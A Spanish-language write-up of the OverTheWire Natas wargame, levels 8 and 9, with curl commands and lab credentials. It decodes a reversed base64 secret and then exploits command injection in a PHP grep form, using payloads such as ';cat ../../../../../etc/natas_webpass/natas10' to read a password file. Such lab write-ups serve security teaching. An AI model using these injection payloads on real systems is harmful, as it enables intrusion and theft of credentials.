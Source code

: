 Natas 8 nos pide otra vez un secreto y nos da la ruta del "index-source.html". 

```console
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas8.natas.labs.overthewire.org/index-source.html" -u natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe | html2text
$encodedSecret = "3d3d516343746d4d6d6c315669563362";
function encodeSecret($secret) { return bin2hex(strrev(base64_encode($secret))); }
```
O sea un hash y como se ha fabricado, un codigo al que le tendremos que dar la vuelta.

```console
[cucuxii@parrot]~[natas]:$ php --interactive
php > print(hex2bin("3d3d516343746d4d6d6c315669563362"));   # Si ha hecho un bin2hex supongo que existira un hex2bin
==QcCtmMml1ViV3b
php > print(strrev("==QcCtmMml1ViV3b"));   # Esta funcion simplemente le da la vuelta a la string
b3ViV1lmMmtCcQ==
php > print(base64_decode("b3ViV1lmMmtCcQ=="));
oubWYf2kBq   # Se supone que este es el secreto
```

```console
[cucuxii@parrot]~[natas]:$ curl -s "http://natas8.natas.labs.overthewire.org" -u natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe \
> -X POST -d "secret=oubWYf2kBq&submit="
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```
Mira pues si era, que bien :3

## Natas9

(Natas8)[http://natas9.natas.labs.overthewire.org]
*Vulnerabilidad: OS command inyecion o inyeccion de comandos al sistema*

Aqui nos sale un formulario, dice que econtrara una string a la palabra que le introduzcamos 
```console
[cucuxii@parrot]~[natas0]:$ curl -s "http://natas9.natas.labs.overthewire.org" -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl -X POST -d "name=neddle&submit="
# Un listado largo con "test" ->  testicle, testicle's, wettest, whitest
```
Esto ya huele un poco a un comando de bash ```grep test diccionario.txt``` En el enlace que se nos leakea "index-source.html" se confirma tal cosa
```$key = $_REQUEST["needle"];  passthru("grep -i $key dictionary.txt");```

¿Que pasa cuando te dejan meter input a un comando de bash? Pues que puedes meter mas comandos con el ";" que es concatenar comandos, es decir ejecutar
otro comando despues del anterior del grep

```console
[cucuxii@parrot]~[natas]:$ curl -s "http://natas9.natas.labs.overthewire.org" -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl -X POST \
> -d "needle=;pwd&submit="
/var/www/natas/natas9

[cucuxii@parrot]~[natas]:$ curl -s "http://natas9.natas.labs.overthewire.org" -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl -X POST \
> -d "needle=;cat ../../../../../etc/natas_webpass/natas10&submit=" | head -n 22
```
Siguiendo la logica de la ruta donde suele meter esto las contraseñas le hemos dicho que nos la suelte con el "cat" y hemos ido rutas para atras porque
esto tira desde "/var/www/natas/natas9" y no desde "/"
